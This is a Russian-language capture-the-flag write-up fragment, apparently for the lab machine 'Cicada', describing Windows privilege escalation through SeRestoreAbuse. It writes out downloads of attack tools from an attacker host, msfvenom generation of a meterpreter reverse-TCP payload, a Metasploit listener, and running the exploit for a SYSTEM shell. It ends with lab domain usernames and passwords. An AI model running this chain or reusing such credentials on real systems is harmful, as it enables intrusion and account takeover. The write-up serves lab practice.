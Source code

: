 Небезопасные привилегии 
```
whoami /priv
```
![[Pasted image 20241103203840.png]]

Загрузка [SeRestoreAbuse.exe](https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe) на хост для запуска агента с правами Системы
```
powershell wget http://10.10.14.32/SeRestoreAbuse.exe -O C:\Windows\Tasks\SeRestoreAbuse.exe
```

Подготовка агента
```bash
# Генерация агента
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=4444 -f exe > agent.exe

# Загрузка агента
powershell wget http://10.10.14.32/agent.exe -O agent007.exe

# Запуск листенера
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.32; set LPORT 4444; exploit"
```

Запуск эксплойта SeRestoreAbuse
```
C:\Windows\Tasks\SeRestoreAbuse.exe "cmd /c C:\Windows\Tasks\agent007.exe"
```
![[Pasted image 20241103212937.png|500]]
Чтение второго флага

___

Справочная информация
```
10.10.11.35 CICADA-DC.cicada.htb

CICADA\john.smoulder
CICADA\sarah.dantelia
CICADA\michael.wrightson
CICADA\david.orelious
CICADA\emily.oscars

cicada.htb\michael.wrightson:'Cicada$M6Corpb*@Lp#nZp!8'
cicada.htb\david.orelious:'aRt$Lp#7t*VQ!3'
cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
```